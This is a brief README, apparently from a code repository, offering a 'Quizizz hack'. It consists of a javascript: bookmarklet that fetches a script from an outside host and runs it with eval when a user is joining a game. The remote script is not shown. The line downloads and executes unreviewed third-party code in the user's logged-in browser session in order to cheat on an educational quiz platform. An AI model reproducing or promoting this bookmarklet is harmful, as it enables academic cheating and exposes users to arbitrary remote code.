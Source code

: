 # Quizizz hack
## Bookmarklet
`javascript:fetch('https://tfdrf.us.to/GamerHax/Quizizz/Quizizz.js').then(function(response){response.text().then(function(text){eval(text);done();});});`  
  
Click this bookmarklet before you join a game, when you are entering your name.
